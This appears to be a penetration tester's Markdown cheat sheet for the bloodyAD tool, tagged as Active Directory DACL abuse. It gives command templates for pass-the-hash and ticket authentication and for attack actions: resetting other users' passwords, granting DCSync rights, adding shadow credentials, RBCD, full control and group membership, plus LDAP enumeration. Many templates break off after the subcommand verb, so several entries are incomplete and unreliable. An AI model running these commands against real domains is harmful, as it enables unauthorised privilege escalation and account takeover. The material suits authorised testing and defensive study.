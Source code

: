 # bloodyAD

% windows, Active directory
#plateform/linux #target/remote  #cat/ATTACK/DACL-ABUSE

## auth (cred)
```bash
-u <user> -p <password>
```

## auth (pth)
```bash
-u <user> -p :<nt_hash>
```

## auth (ptt)
```bash
-k
```

## auth (cert)
```bash
-c <key_path>:<pem_path>
```

## cross-domain actions
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p
```

## set - change user password (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set password <target_user> '<password|Jubeaz12345!>' 
```

## set cross-domain - change user password (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <target_dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set password <target_user> '<password|Jubeaz12345!>' 
```

## set - add/replace/delete target attribute  (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```

## set - object onwer (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```



## add - new computer (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - DCSync right (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - DNS record (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - full control (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - groupMember (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  groupMember <group_sam> <target_sam>
```
## add - rbcd (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - shadowCredentials (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - uac (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - user (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```

## get - list children of an object (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get  
```
## get - DNS records (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get dnsDump --zone <domain>  
```
## get - membership (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get membership <target_sAMAccountName>
```
## get - object (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get object --resolve-sd <target_sAMAccountName>
```
## get - search (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get search --filter '<ldap_filter|(objectClass=*)>' --attr <comma_sep_attr_list|*> --resolve-sd  <search_base|DC=domain,DC=tld>
```
## get - writable (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get  
```

## remove - DCSync (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - DNS record (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - full control (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - groupMember (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - object (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - rbcd (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - shadowCredentials (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - uac (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```

